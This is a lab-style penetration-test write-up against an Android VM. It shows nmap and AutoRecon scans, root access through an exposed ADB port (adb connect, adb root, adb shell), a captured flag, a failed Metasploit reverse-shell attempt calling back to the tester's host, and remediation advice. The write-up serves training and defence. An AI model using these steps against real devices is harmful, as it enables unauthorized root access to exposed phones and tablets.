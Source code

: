 # Pentest 4 - Android - 48 

Starting off this test, I wanted to evaluate a tool called autorecon that I was recommended.   
The framework itself is a shortcut to a lot of steps that are run manually such as nmap / nikto scans, and created a directory structure for findings.  
Useful to keep all your material and dumps / output in the same location.  
So I setup and installed [AutoRecon](https://github.com/Tib3rius/AutoRecon), and proceeded to run it.   

```bash
mkdir ~/reports/4/
cd ~/reports/4/
export ANDROID=10.14.1.48
sudo autorecon $ANDROID
```

### Scanning  
This produced the following scanning commands and output. 
Only one port was open - 5555, and deemed to be `adb` (Android Debugger). 
```bash
└─$ cat _commands.log     
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -oN "/home/kali/reports/4/results/10.14.1.48/scans/_quick_tcp_nmap.txt" -oX "/home/kali/reports/4/results/10.14.1.48/scans/xml/_quick_tcp_nmap.xml" 10.14.1.48

nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN "/home/kali/reports/4/results/10.14.1.48/scans/_full_tcp_nmap.txt" -oX "/home/kali/reports/4/results/10.14.1.48/scans/xml/_full_tcp_nmap.xml" 10.14.1.48

nmap -vv --reason -Pn -T4 -sU -A --top-ports 100 -oN "/home/kali/reports/4/results/10.14.1.48/scans/_top_100_udp_nmap.txt" -oX "/home/kali/reports/4/results/10.14.1.48/scans/xml/_top_100_udp_nmap.xml" 10.14.1.48

└─$ cat _quick_tcp_nmap.txt 
# Nmap 7.94 scan initiated Sun Jul 30 12:37:27 2023 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -oN /home/kali/reports/4/results/10.14.1.48/scans/_quick_tcp_nmap.txt -oX /home/kali/reports/4/results/10.14.1.48/scans/xml/_quick_tcp_nmap.xml 10.14.1.48
adjust_timeouts2: packet supposedly had rtt of -163144 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -163144 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -189214 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -189214 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -160070 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -160070 microseconds.  Ignoring time.
Nmap scan report for 10.14.1.48
Host is up, received user-set (0.17s latency).
Scanned at 2023-07-30 12:37:27 EDT for 45s
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
5555/tcp open  adb     syn-ack ttl 63 Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
Aggressive OS guesses: Linux 4.4 (99%), Linux 4.0 (98%), Linux 3.11 - 4.1 (96%), Linux 2.6.32 (96%), Linux 2.6.32 or 3.10 (96%), Linux 3.10 - 3.12 (95%), Linux 2.6.32 - 2.6.35 (94%), Linux 2.6.32 - 2.6.39 (94%), Linux 4.9 (93%), Linux 3.13 (93%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/30%OT=5555%CT=1%CU=38165%PV=Y%DS=2%DC=I%G=Y%TM=64C69
OS:1F4%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=101%TI=Z%TS=A)SEQ(SP=102%
OS:GCD=1%ISR=103%TI=Z%II=I%TS=A)SEQ(SP=103%GCD=1%ISR=103%TI=Z%TS=A)SEQ(SP=1
OS:03%GCD=1%ISR=103%TI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B
OS:4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%
OS:W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%TG=40%W=7210%O=M5B4NNSNW7%C
OS:C=Y%Q=)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%TG=40%S
OS:=O%A=S+%F=AS%RD=0%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=
OS:N)T4(R=N)T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=N)U1(R=Y%DF=N%T=40%IPL=
OS:164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%TG=40%CD=S)IE(R=
OS:Y%DFI=N%T=40%CD=S)

Uptime guess: 0.001 days (since Sun Jul 30 12:37:26 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Android; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT       ADDRESS
1   169.36 ms 10.14.1.48

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 30 12:38:12 2023 -- 1 IP address (1 host up) scanned in 44.47 seconds
```

### Exploitation  
I've used adb in the past as I've rooted my own personal devices. Based on that previous experience, and the fact that I knew it had a listening port, 
I guessed maybe I could just try to access it directly?

```bash
└─$ adb                                                                                                                                                         130 ⨯
Command 'adb' not found, but can be installed with:
sudo apt install adb                                    
sudo apt install google-android-platform-tools-installer
                   
sudo apt install adb google-android-platform-tools-installer                                 

Processing triggers for kali-menu (2021.4.2) ...
Processing triggers for libc-bin (2.36-9) ...
Processing triggers for man-db (2.9.4-2) ...
                                                                                                                                                                      
┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb connect                                             
adb: usage: adb connect HOST[:PORT]


┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb connect $ANDROID                                    
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 10.14.1.48:5555
                                                                                                                                                                      
┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb connect $ANDROID
already connected to 10.14.1.48:5555
                                                                                                                                                                      
┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb root            
restarting adbd as root
                                                                                                                                                                      
┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb shell
root@x86:/ # whoami
root

1|root@x86:/ # ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN 
    link/sit 0.0.0.0 brd 0.0.0.0
3: ip6tnl0@NONE: <NOARP> mtu 1452 qdisc noop state DOWN 
    link/tunnel6 :: brd ::
4: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:af:f6:88 brd ff:ff:ff:ff:ff:ff
    inet 10.14.1.48/24 brd 10.14.1.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:feaf:f688/64 scope link 
       valid_lft forever preferred_lft forever
root@x86:/ # 

127|root@x86:/ # getprop net.hostname
android-e198eecc6f5457fa
root@x86:/ # 

root@x86:/ # find / -name key.txt
/data/root/key.txt
root@x86:/ # 
root@x86:/ # cat /data/root/key.txt
x7vyfyxcaq6p7vxx2ruo
root@x86:/ # 
```

### Conclusion 
That was really straight-forward?   
Essentially, I was able to install `adb`, connect to the host, and pop a shell.  
From here, I thought it was almost too easy, so I ran a few commands just to make sure I was in fact on the host - namely `ip addr` to verify the interface I was on,
as well as the hostname. All checked out, and we got the flag. 

### Alternate

I was curious if Metasploit had anything for this as well. While there was an exploit available, I was unable to successfully use it - no shell sessions were established.
```bash
msf6 > search adb platform:android
[-] No results from search
msf6 > search adb platform:linux

As a test, I tried metasploit to see if I would have any success -

search adb platform:linux
Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/android/adb/adb_server_exec                    2016-01-01       excellent  Yes    Android ADB Debug Server Remote Payload Execution
   1  exploit/multi/misc/bmc_server_automation_rscd_nsh_rce  2016-03-16       excellent  Yes    BMC Server Automation RSCD Agent NSH Remote Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/misc/bmc_server_automation_rscd_nsh_rce

msf6 > use 0

msf6 exploit(android/adb/adb_server_exec) > show options

Module options (exploit/android/adb/adb_server_exec):

   Name         Current Setting   Required  Description
   ----         ---------------   --------  -----------
   RHOSTS                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        5555              yes       The target port (TCP)
   SRVHOST      0.0.0.0           yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      8080              yes       The local port to listen on.
   SSL          false             no        Negotiate SSL for incoming connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   WritableDir  /data/local/tmp/  yes       Writable directory


Payload options (linux/armle/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   ARGV0  sh               no        argv[0] to pass to execve
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The shell to execute.


Exploit target:

   Id  Name
   --  ----
   0   armle

msf6 exploit(android/adb/adb_server_exec) > set RHOST 10.14.1.48
RHOST => 10.14.1.48
msf6 exploit(android/adb/adb_server_exec) > set LHOST ppp0
LHOST => 172.16.4.1
msf6 exploit(android/adb/adb_server_exec) > exploit


*] Started reverse TCP handler on 172.16.4.1:4444 
[*] 10.14.1.48:5555 - Connecting to device...
[-] Command shell session 1 is not valid and will be closed
[*] 10.14.1.48 - Command shell session 1 closed.
[-] Command shell session 2 is not valid and will be closed
[*] 10.14.1.48 - Command shell session 2 closed.
```

### Remediation

Most importantly, I would disable adb over the network. In practice, I've only ever used `adb` locally, when directly connected to the device using USB.
If this is a built-in device, or something that is not easily physically accessible (like a mounted tablet), at a minimum restricting access to a private / local subnet 
only, to limit and prevent outside access. 

